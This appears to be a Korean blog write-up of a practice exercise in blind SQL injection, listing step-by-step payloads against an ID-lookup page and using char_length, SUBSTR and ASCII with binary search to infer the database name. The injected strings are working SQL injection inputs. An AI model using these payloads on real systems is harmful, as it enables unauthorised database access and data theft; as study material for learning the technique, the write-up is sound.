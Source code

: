 ~~???: 한 번은 직접 손으로 풀어봐라~~  
~~???: 네~~  
그래서 사용한 코드와 결과를 일일히 적어놓았기 때문에 긴 글이 될 것이다.  
첫 부분만 결과를 사진으로 첨부하고 그 후로는 <mark>'존재하는 아이디입니다'</mark>는 <mark>O</mark>로, <mark>'존재하지 않는 아이디입니다'</mark>는 <mark>X</mark>로 표현하겠다.  

# Blind SQL Injection
## 1. START
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-14.png?raw=true)
1. **normaltic' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-15.png?raw=true)
1. **normaltic' and '1' = '1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-16.png?raw=true)
1. **normaltic' and '1' = '2' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-17.png?raw=true)
1. **normaltic' and ('1' = '1') and '1' = '1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-18.png?raw=true)
1. **normaltic' and ('1' = '1') and '1' = '2' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-19.png?raw=true)
1. **normaltic' and (select 'test' = 'test') and '1' = '1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-20.png?raw=true)

## 2. DATABASE
### 2.1. 이름 글자수 확인
* `char_length(string)`: 주어진 string의 글자수를 반환한다.

---

1. **normaltic' and ((char_length(database())) > 10) #**
-> X  
1. **normaltic' and ((char_length(database())) < 6) #**
-> X  
1. **normaltic' and ((char_length(database())) < 10) #**
-> O  
1. **normaltic' and ((char_length(database())) < 8) #**
-> X  
1. **normaltic' and ((char_length(database())) = 9) #**
-> O  
-> 😭 아... 9번...

### 2.2. 이름 확인
* `SUBSTR(string, start, length)`: 주어진 string을 start 위치부터 length개를 잘라 반환한다.
* `ASCII(character)`: 글자 하나에 ASCII 값을 반환한다. ASCII CODE 범위는 0 ~ 127이다.
* 이 두 함수를 이용해 글자를 하나하나 잘라서 ASCII 코드로 변환한다. 그 후 이진탐색을 통해 그 값을 찾을 것이다.
* 모든 글자를 다 찾기는 너무나도 귀찮으니 하나씩 건너띄면서 확인하고 남은 건 예측했다.

---